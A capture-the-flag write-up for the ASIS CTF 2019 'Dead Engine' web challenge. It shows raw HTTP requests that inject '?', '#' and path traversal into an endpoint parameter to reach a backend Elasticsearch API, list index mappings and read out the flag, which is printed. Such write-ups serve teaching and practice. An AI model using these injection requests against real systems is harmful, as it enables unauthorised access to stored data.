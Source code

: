 # ASIS CTF quals - 2019

## Dead Engine - 112 / Web

> Description:
>
> Have you ever thought, what would you have done if you had access to all the data stored on the Google database?
>
> Please don't scan the server! It won't help you.

### Solution

By [@Cyku](https://github.com/cykutw)

This challenge has only one simple web page. Looks like:
![](DeadEngine_01.png)

When you type something into the input box, it would perform a AJAX request to `/?action`. 

AJAX request:
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 19

q=a&endpoint=search
```
![](DeadEngine_02.png)

We fuzzed the parameter `endpoint` and found some strange messages.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 21

q=a&endpoint=./search
```
![](DeadEngine_03.png)

According to this message, we can guess that the backend is an `Elastic Search` service. This AJAX api would directly show the response from `Elastic Search` if `json_decode` failed.

And then we found that we can even inject `?`, `#` to the search API of Elastic Search. Use `?format=yaml` to force the Elastic Search to return the yaml format instead of json, so `json_decode` always fails and show whole response from Elastic Search. Use `#` to hide other parameters on search API, make sure the search result is what we expected.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 36

q=a&endpoint=./search?format=yaml%23
```
![](DeadEngine_04.png)

Elastic Search provides a API called `_mapping`. This API allows us to retrieve mapping definitions for an index.

We tried to get mappings of all indices and types, and found an index named `secr3td4ta` contains a type named `fl4g?`, looks like it should has the flag!
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 46

q=a&endpoint=/../../../_mapping?format=yaml%23
```
![](DeadEngine_05.png)

Last step, use search API to get flag.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 66

q=a&endpoint=/../../../secr3td4ta/fl4g%253f/_search?format=yaml%23
```
![](DeadEngine_06.png)

`ASIS{2a6e210f10784c9a0197ba164b94f25d}`
